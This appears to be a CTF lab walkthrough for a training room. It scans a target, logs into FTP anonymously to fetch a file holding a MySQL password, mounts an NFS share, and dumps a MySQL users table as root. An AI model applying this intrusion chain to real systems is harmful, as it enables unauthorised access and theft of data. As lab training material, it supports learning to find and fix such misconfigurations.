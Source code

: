 scan the target

```
nmap -A -T4 10.10.254.238
```

we can see a lot of open ports here (21 ftp, 22 ssh, 111 rpc, 2049 nfs, 3306 mysql)

![image](https://user-images.githubusercontent.com/90561566/209626327-db765ccf-fe97-438f-ab86-0e8192c00aff.png)

login ftp by anonymous acc

```
ftp 10.10.254.238
anonymous
```

![image](https://user-images.githubusercontent.com/90561566/209628133-20292d25-393a-46ca-8689-5e237149e6ea.png)

```
binary
get file.txt
exit
```

we have mysql password `ff912ADB*`

![image](https://user-images.githubusercontent.com/90561566/209628362-eeca2d6c-60c1-4396-b923-6cc6ef83aa28.png)

```
mkdir /mnt/thm
mount 10.10.254.238:/opt/files /mnt/thm
```

we have creds.txt

![image](https://user-images.githubusercontent.com/90561566/209629545-b5829fd6-1f3b-4139-9489-9032160068b1.png)

```
mysql -h 10.10.254.238 -u 'root' -p 'ff912ADB*'
show databases;
```

![image](https://user-images.githubusercontent.com/90561566/209630234-d2e8dda8-1bcf-4597-b28b-2f35415675af.png)

```
use data;
show tables;
select * from USERS;
```

![image](https://user-images.githubusercontent.com/90561566/209631080-cb73e125-564b-4eaa-afd5-aee551b9db97.png)

## Day 12: Elfcryption






